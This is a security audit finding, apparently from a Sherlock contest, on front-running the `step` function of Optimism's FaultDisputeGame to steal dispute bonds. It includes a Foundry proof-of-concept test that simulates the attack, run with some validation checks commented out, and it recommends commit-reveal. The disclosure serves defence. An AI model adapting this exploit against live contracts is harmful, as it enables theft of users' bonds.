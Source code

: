 Damaged Chartreuse Skunk

medium

# MEV on Bonds, disputes should be commit revealed to prevent them from being stolen by the victim or attackers

## Summary

Because `step` is external and directly rewards the `msg.sender` with a claim front-runners will have the ability of stealing bond payouts at no risk

## Vulnerability Detail

`step` allows the msg.sender to be set as the `parent.counteredBy`

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L214-L219


## Impact

Once this value is set, it cannot be altered, and this has a direct impact on the ability to `resolveClaim`

This means that they will receive a bond for this

This means that anybody can front-run calls to `step` with the goal of stealing bonds


## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L142-L155


In a similar way we can have the attacker spam txs to avoid losing funds

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";

import "src/dispute/DisputeGameFactory.sol";
import "src/dispute/FaultDisputeGame.sol";
import "src/dispute/AnchorStateRegistry.sol";
import "src/dispute/lib/LibPosition.sol";

contract Logger {
    function log() external {
        console2.log("as", msg.sender);
    }
}

contract FaultDisputesTest is Test {

    uint256 totalReceived;
    fallback () external payable {
        totalReceived += msg.value;
    }

    function testAttackSimple() public {
        DisputeGameFactory factory = new DisputeGameFactory();

        AnchorStateRegistry registry = new AnchorStateRegistry(IDisputeGameFactory(factory));

        FaultDisputeGame firstGame = new FaultDisputeGame(
            GameType.wrap(1),
            Claim.wrap(bytes32(0x0)),
            3, // MAX_DEPTH
            1, // 30 SPLIT_DEPTH
            Duration.wrap(604800), // 7 days

            IBigStepper(address(this)),
            IDelayedWETH(address(this)),
            IAnchorStateRegistry(registry),
            123123
        );

        factory.setImplementation(GameType.wrap(1), IDisputeGame(firstGame));

        AnchorStateRegistry.StartingAnchorRoot[] memory initialRoots = new AnchorStateRegistry.StartingAnchorRoot[](1);
        initialRoots[0].gameType = GameType.wrap(1);
        initialRoots[0].outputRoot = OutputRoot({
            root: Hash.wrap(bytes32(uint256(123123))),
            l2BlockNumber: 1
        });

        registry.initialize(
            initialRoots
        );

        address creator = address(0x9898);
        address attacker = address(0x123123);
        address defender = address(0xddd);
        attacker.call{value: 500e18}("");
        creator.call{value: 500e18}("");
        defender.call{value: 500e18}("");

        factory.setInitBond(GameType.wrap(1), 999);

        vm.startPrank(creator);
        FaultDisputeGame proxy = FaultDisputeGame(payable(address(factory.create{value: 999}(
            GameType.wrap(1),
            Claim.wrap(bytes32(uint256(1231231231))),
            abi.encode(2)
        ))));
        vm.stopPrank();

        
        vm.startPrank(attacker);
        // can we defend the first thing?
        uint256 dur = 0;
        uint256 amt = proxy.getRequiredBond(LibPosition.wrap(uint64(dur+1), 0));
        proxy.move{value: amt}(dur, Claim.wrap(bytes32(uint256(dur+1))), true); // Always an attack
        dur++;

        amt = proxy.getRequiredBond(LibPosition.wrap(uint64(dur+1), 0));
        proxy.move{value: amt}(dur, Claim.wrap(bytes32(uint256(dur+1))), true);

        console2.log("Defender");
        vm.stopPrank();
        vm.startPrank(defender);
        amt = proxy.getRequiredBond(LibPosition.wrap(uint64(dur+1), 0));
        proxy.move{value: amt}(dur, Claim.wrap(bytes32(uint256(dur+1))), false);
        dur++;
        vm.stopPrank();
        vm.startPrank(attacker);

        amt = proxy.getRequiredBond(LibPosition.wrap(uint64(dur+1), 0));
        proxy.move{value: amt}(dur, Claim.wrap(bytes32(uint256(dur+1))), true);
        // amt = proxy.getRequiredBond(LibPosition.wrap(uint64(dur+1), 0)); // Cannot defend root claim
        // proxy.move{value: amt}(dur, Claim.wrap(bytes32(uint256(dur+1))), false);
        dur++;
        vm.stopPrank();

        // Adding more = Game depth exceeded
        uint256 stepFakeDispute = 0;
        while (stepFakeDispute < 15) {
        try proxy.step(
            stepFakeDispute++,
            true, // obv _isAttack so we fail instantly
            hex"",
            hex""
        ) {} catch {}
        }


        vm.warp(block.timestamp + proxy.gameDuration().raw() + 1);

        // Ensures we abundantly resolve all claims
        uint256 counter = 15;
        while (counter > 0) {
            try proxy.resolveClaim(counter--) {} catch {}
        }
        proxy.resolveClaim(counter);
        proxy.resolve();

        console2.log("Result", uint256(proxy.status()));
        console2.log("credit address(0)", proxy.credit(address(0)));
        console2.log("credit Attacker", proxy.credit(attacker));
        console2.log("credit creator", proxy.credit(creator));
        console2.log("credit defender", proxy.credit(defender));
        console2.log("tx.origin", tx.origin);
        console2.log("credit tx.origin", proxy.credit(tx.origin));
        console2.log("Original Claimant", proxy.getOriginalClaimant());
        console2.log("Original Claimant", proxy.credit(proxy.getOriginalClaimant()));
    }
```

To allow the POC to work I commented out these lines:

        // if (keccak256(_stateData) << 8 != preStateClaim.raw() << 8) revert InvalidPrestate(); // NOTE: Commented

    //     if (_isAttack || disputed.position.depth() % 2 == SPLIT_DEPTH % 2) {
    //         // If the move is an attack, the parent output is always deemed to be disputed. In this case, we only need
    //         // to check that the root claim signals that the VM panicked or resulted in an invalid transition.
    //         // If the move is a defense, and the disputed output and creator of the execution trace subgame disagree,
    //         // the root claim should also signal that the VM panicked or resulted in an invalid transition.
    //         if (!(vmStatus == VMStatuses.INVALID.raw() || vmStatus == VMStatuses.PANIC.raw())) {
    //             revert UnexpectedRootClaim(_rootClaim);
    //         }
    //     } else if (vmStatus != VMStatuses.VALID.raw()) {
    //         // The disputed output and the creator of the execution trace subgame agree. The status byte should
    //         // have signaled that the VM succeeded.
    //         revert UnexpectedRootClaim(_rootClaim);
    //     }

## Tool used

Manual Review

## Recommendation

A commit reveal system would need to be set, that would ensure that only the first disputer is rewarded the bond for having done the actual proving